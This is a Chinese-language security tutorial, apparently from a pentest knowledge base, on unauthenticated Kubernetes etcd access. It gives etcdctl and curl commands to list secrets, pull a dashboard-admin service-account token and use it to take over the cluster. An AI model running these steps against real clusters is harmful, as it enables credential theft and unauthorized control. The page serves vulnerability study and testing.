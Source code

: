# K8s etcd未授权访问

# K8s etcd未授权访问

## 漏洞描述

etcd 是云原生架构中重要的基础组件。etcd 在微服务和 Kubernates 集群中不仅可以作为服务注册于发现，还可以作为 key-value 存储的中间件，为 k8s 集群提供底层数据存储，保存了整个集群的状态。

在 K8s 集群初始化后，etcd 默认就以 pod 的形式存在，可以执行如下命令进行查看，etcd 组件监听的端口为 2379，并且对外开放。

```
kubectl get pods -A | grep etcd
```

在 etcd 的配置文件 /etc/kubernetes/manifests/etcd.yaml 中，--client-cert-auth 默认为 true，这意味着访问 etcd 服务需要携带 cert 进行认证。

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

etcdctl 下载地址：https://github.com/etcd-io/etcd

## 漏洞复现

### 查看是否存在未授权访问

访问以下链接，查看是否存在未授权访问。

```
https://your-ip:2379/version
-------------
返回如下则存在未授权访问：
{etcdserver: "3.4.3", etcdcluster: "3.4.0"} 
```

```
https://your-ip:2379/v2/keys
-------------
返回如下则存在未授权访问：
{"action":"get","node":{"dir":true,"nodes":...}}
```

### 查找 Token 接管集群

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群。

```
#查找所有的 secret
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get / --prefix --keys-only|sort|uniq| grep secret
```

以 `/registry/secrets/kube-system/dashboard-admin-token-c7spp` 为例，查看指定 secret 保存的证书和 token：

```
#查找指定 secret 保存的证书和 token
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get /registry/secrets/kube-system/dashboard-admin-token-c7spp
```

最终的 token 为 `token?` 和 `\#kubernetes.io/service-account-token` 之间的部分。可以使用 curl 验证 token 的有效性：

```
curl --header "Authorization: Token" -X GET https://your-ip:6443/api -k
```

然后，就可以使用 token 登录 dashboard 或者远程命令管理 K8s。

